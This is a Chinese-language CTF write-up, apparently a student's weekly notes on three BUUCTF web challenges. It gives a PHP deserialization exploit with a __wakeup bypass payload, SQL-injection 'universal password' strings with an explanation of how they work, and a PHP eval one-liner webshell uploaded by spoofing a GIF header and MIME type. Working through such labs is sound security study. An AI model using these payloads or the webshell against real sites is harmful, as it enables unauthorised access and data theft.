

# 寒假WEEK1

## 概况

本周主要刷了buu第一页的题，纯复习找找感觉。

## 部分wp

### 1.PHP

打开是一个毛线球逗猫网页，发现提示：

因为每次猫猫都在我键盘上乱跳，所以我有一个良好的备份网站的习惯，不愧是我！！！ 

dirsearch -u扫描一下，扫出来了一大堆文件，根本看不完，最后还是试出来了www.zip，打开该文件，在本地下载得到了一个压缩包。

解压看一下，发现有三个php文件。

先打开flag.php，里面只有一个假flag，再打开class.php，里面是一段反序列化：

```php
<?php

include 'flag.php';

error_reporting(0);

 

class Name{

  private $username = 'nonono';

  private $password = 'yesyes';

  public function __construct($username,$password){

​    $this->username = $username;

​    $this->password = $password;

  }

  function __wakeup(){

​    $this->username = 'guest';

  }

  function __destruct(){

​    if ($this->password != 100) {

​      echo "</br>NO!!!hacker!!!</br>";

​      echo "You name is: ";

​      echo $this->username;echo "</br>";

​      echo "You password is: ";

​      echo $this->password;echo "</br>";

​      die();

​    }

​    if ($this->username === 'admin') {

​      global $flag;

​      echo $flag;

​    }else{

​      echo "</br>hello my friend~~</br>sorry i can't give you the flag!";

​      die();     

​    }

  }

}

?>
```

 再打开index.php,发现可以GET传参select：

```php
include 'class.php';

  $select = $_GET['select'];

  $res=unserialize(@$select);
```

审计代码，发现存在destruct方法，该方法在反序列化结束时自动调用，且要求username强等于admin，password等于100

故exp为：

```php
<?php

class Name{

  private $username;

  private $password;

  public function __construct($username,$password){

​    $this->username = $username;

​    $this->password = $password;

  }

  }

$a=new Name('admin',100);

echo serialize($a);

?>
```

运行得到payload为：

```
O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

因为存在wakeup方法需要绕过，所以需要把成员数量改成3

<!--//private声名的是私有变量，仅限于在其在所声名的类中可见，所以要在类名和字段名前加上\0的前缀，且字符长度也包括前缀的长度。-->

参考文章：[【PHP】反序列化漏洞(又名“PHP对象注入”)_对象注入 unserialize() 函数进行攻击-CSDN博客](https://blog.csdn.net/weixin_45844670/article/details/108171963)

最终payload：

```
?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

 

### 2.EasySQL

进入网页，发现是一个登录界面

输入admin 1;，发现报错：

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1

存在sql注入，且注入点为’，故尝试万能密码

```
1'or'1=1
```

登陆成功，得到flag


补充一段万能密码原理：

**1.原理**

一个简单的登陆页面，要求用户输入账户和密码。若用户输入正确的信息，则返回true，登陆成功并转跳至目标界面，否则返回false并回显报错信息。

这个过程通常使用到了“表示层（UI）-业务逻辑层（BLL）-数据访问层（DAL）”三层架构，例如JSP+MySQL。用户在表示层输入自己的账户和密码，业务逻辑层执行index.php,将用户输入的数据转化为sql语句，数据访问层执行这些sql语句，并返回结果。

```php
$id=$_GET['id'];

$passwd=$_GET['passwd'];

$sql="SELECT *FROM admin WHERE id='$_id' and passwd='$_passwd' "
```

如上代码所示，用户输入的账户和密码被拼接进了sql语句，并在数据库中进行查询。如果用户输入的是非法语句或恶意的sql语句，那么这些语句会通过拼接，带入sql数据库中执行，并返回执行结果，从而导致重要数据泄露。

参考文章：

[三层架构：表示层-业务逻辑层-数据访问层_数据层表示层业务逻辑层-CSDN博客](https://blog.csdn.net/m0_37033566/article/details/53787055)

 WEB安全深度剖析

**2.万能密码**

在SQL Sever中，布尔表达式的优先级从高到低依次是NOT,AND,OR，同级默认从左向右计算。所以，当我们输入万能密码，id为'or 1=1--时，sql语句就是

```
SELECT *FROM admin WHERE id=''or 1=1--' and passwd='$_passwd'
```

在这句中，' 闭合了语句，--将后面的句子注释掉了， 所以这句sql语句就变成了

```
SELECT *FROM admin WHERE id=''or 1=1。
```

因为or连接一方为真则真，且1=1为真，所以这句的运行结果永远为真，故可以成功登录。

 

### 3.upload

进入网页，发现要上传一张图片，上传一个一句话图片马，发现提示：

NO! HACKER! your file included '<?'

再次上传一个修改后的一句话图片马：

```html
<script language=‘php’>@eval($_POST[“passwd”]);</script>
```

上传后得到提示：Don't lie to me, it's not image at all!!!，故猜测是MIME绕过。

bp抓包，添加gif文件头GIF89a，如图：



 蚁剑连接url/upload/muma(passwd).phtml,根目录即可找到flag


 

 

 

 